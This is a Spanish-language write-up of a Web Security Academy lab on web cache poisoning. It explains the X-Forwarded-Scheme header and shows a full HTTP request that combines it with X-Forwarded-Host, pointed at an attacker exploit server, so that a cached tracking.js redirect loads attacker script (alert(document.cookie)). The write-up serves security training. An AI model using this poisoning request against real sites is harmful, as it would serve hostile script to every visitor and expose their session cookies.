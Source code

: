 [Lab: Web cache poisoning with multiple headers](https://www.youtube.com/watch?v=YA1Jhd8op4g&ab_channel=JarnoTimmermans)

Se ha testeado y se ha encontrado que la cabecera  X-Forwarded-Scheme es un unkeyed input.
### ¿Para qué sirve `X-Forwarded-Scheme`?

Cuando un servidor intermedio como un proxy o un balanceador de carga está involucrado en una conexión, podría modificar el esquema de la solicitud por razones de seguridad o eficiencia. Por ejemplo:
- Un cliente puede hacer una solicitud HTTPS a un proxy que luego convierte esa solicitud a HTTP antes de reenviarla al servidor final.
- El encabezado `X-Forwarded-Scheme` permite que el servidor final sepa si la solicitud original fue HTTPS o HTTP, incluso si el proxy ha cambiado el esquema.

Este encabezado puede ser útil para:
- **Aplicar configuraciones de seguridad**: Permitir que el servidor responda con seguridad según el esquema original.
- **Redireccionar o modificar respuestas**: Si un servidor necesita forzar HTTPS, puede leer `X-Forwarded-Scheme` para decidir si debe redirigir al cliente a HTTPS.
  
### Ejemplo de una solicitud con `X-Forwarded-Scheme`

```http
GET /recurso HTTP/1.1
Host: ejemplo.com
X-Forwarded-Scheme: https
```

Aquí, el encabezado `X-Forwarded-Scheme: https` indica que la solicitud original fue HTTPS, aunque podría haber sido transformada a HTTP por un proxy antes de llegar al servidor final.

### Uso en ataques de envenenamiento de caché

El encabezado `X-Forwarded-Scheme` también puede ser una entrada sin clave (unkeyed input) en un servidor, lo que significa que su valor podría no influir en la decisión de la caché. Esto puede explotarse en un ataque de envenenamiento de caché si el servidor utiliza el valor de este encabezado para generar la respuesta, pero la caché lo ignora. 

1. **Manipulación de `X-Forwarded-Scheme`**: Si puedes enviar solicitudes con diferentes valores de `X-Forwarded-Scheme` (por ejemplo, cambiando entre `http` y `https`), el servidor podría generar respuestas ligeramente diferentes. ==Sin embargo, si la caché no incluye `X-Forwarded-Scheme` en la clave de caché==, puede almacenar una respuesta "envenenada".
   
2. **Inyección de contenido malicioso**: Si el valor de `X-Forwarded-Scheme` cambia cómo el servidor genera los enlaces o redirecciones (por ejemplo, generando URLs que comiencen con `http` o `https`), podrías manipular el esquema para forzar la generación de contenido no deseado o inseguro en la respuesta en caché.

3. **Resultado**: La respuesta manipulada se guarda en caché, de modo que las solicitudes posteriores que coincidan con la clave de caché reciben una respuesta que podría contener URLs inseguras o contenido envenenado.

Este tipo de ataque funciona especialmente bien en servidores que confían en los encabezados `X-Forwarded` sin validarlos adecuadamente o que no incluyen esos encabezados en la clave de caché.


1. Si cambias a `X-Forwarded-Scheme: http` y pones un Caché Buster, te va redirigir a la url pero con https, si lo vuelves a cambiar a https no te redirige, la cosa es que detecta si estás usando https para , en el caso contrario, redirigirte.
2. Volvemos a guess headers y encontramos `X-Forwarded-Host` que también es otro unkeyed input y que si queda reflejado en el output.
3. Podemos usarlo para redirigir a una página maliciosa, en concreto podemos aprovecharnos de `/resources/images/tracker.gif` :

```request
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 21
X-Cache: hit
Content-Length: 70

document.write('<img src="/resources/images/tracker.gif?page=post">');
```

Podemos cargar en `https://exploit-0a4e004c04dd8c28815524050189000a.exploit-server.net/resources/images/tracker.gif` : alert(document.cookie);

```request
GET /resources/js/tracking.js HTTP/2
Host: 0abb001904808c8381d325fe0080003e.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="125", "Not.A/Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-0a4e004c04dd8c28815524050189000a.exploit-server.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0abb001904808c8381d325fe0080003e.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=0, i
```

Entonces cuando se cargue / se cargará el script del recurso `https://exploit-0a4e004c04dd8c28815524050189000a.exploit-server.net/resources/js/tracking.js` y se ejecutará la alerta.
